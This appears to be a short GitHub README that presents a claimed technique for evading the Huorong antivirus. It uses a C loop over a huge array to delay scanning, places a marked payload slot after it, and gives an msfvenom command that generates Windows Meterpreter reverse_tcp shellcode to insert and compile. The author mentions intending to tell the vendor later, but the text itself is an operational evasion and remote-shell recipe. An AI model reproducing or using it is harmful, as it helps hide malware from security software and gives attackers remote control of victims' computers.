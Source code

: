 # bhrong
battle with huorong

I found how to use 2 lines of c/c++ to escape huorong's serch

int c[8192][8192];

for(int i=0;i<8192;i++) for(int j=0;j<8192;j++) c[j][i]=1;


/* your payload here */


use msfvenom -p windows/meterpreter/reverse_tcp lhost=[IP you want] lport=[port you want] -f c -o shell.c

copy the container of shell.c to instead the [exc] in sample ,and then just to try complie it when HuoRong is open.

闲的没事突发奇想搞出来的罢了,开学以后还是告诉官方罢
25/2/1

